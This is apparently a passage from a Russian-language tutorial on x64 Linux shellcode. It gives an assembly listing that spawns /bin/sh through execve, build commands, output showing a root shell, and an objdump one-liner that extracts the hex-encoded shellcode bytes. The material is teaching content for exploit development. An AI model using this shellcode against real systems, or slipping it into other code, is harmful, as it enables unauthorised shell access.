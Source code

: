 # x64 

Мы предполагаем, что вы уже знаете 64-битный ассемблерный код, если нет, то это почти то же самое, что и 32-битные инструкции… В любом случае, 64-битный шеллкод так же прост, как и 32-битные.

**Примечание.** В Интернете можно найти множество ссылок на 64-битные системные вызовы, например [этот](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) .

Основное отличие:

- Вместо того, чтобы звонить `ìnt 0x80`чтобы вызвать системный вызов, мы используем `syscall`инструкция
- Регистры **64-битные** (О РЛИ?!)
- Системный вызов execve _()_ равен **59** (целое число).
- Вместо использования _EAX, EBX, ECX и т. д._ для системного вызова используется _RAX, RDI, RSI, RDX и т. д._

Давайте попробуем воспроизвести _шелл-код execve(),_ который мы сделали ранее.

```c
; nasm -f elf64 execve64.asm
; ld -m elf_x86_64 execve64.o -o execve64
section .text
global _start

_start:
xor rax, rax
push rax        ; string terminator
mov rax, 0x68732f6e69622f2f ; "hs/nib//" (Yay! 64-bit registers)
push rax
mov rdi, rsp    ; "//bin/sh",0 pointer is RSP
xor rsi, rsi    ; RSI = 0
xor rdx, rdx    ; RDX = 0
xor rax, rax    ; RAX = 0
mov al, 0x3b    ; execve()
syscall
```

**Примечание.** Здесь мы не помещали строку в стек напрямую, потому что помещение 64-битного немедленного значения невозможно. Итак, мы использовали RAX в качестве промежуточного регистра.

Теперь вы можете попробовать. Обратите внимание, что аргументы компиляции изменились.

```bash
$ nasm -f elf64 execve64.asm
$ ld -m elf_x86_64 execve64.o -o execve64
$ ./execve64 
# id
uid=0(root) gid=0(root) groups=0
```

Легко, верно?

```bash
$ objdump -d ./execve64|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x48\x31\xc0\x50\x48\xb8\x2f\x2f\x62\x69\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05"
```

Теперь твоя очередь, сделай их меньше, сделай их умнее!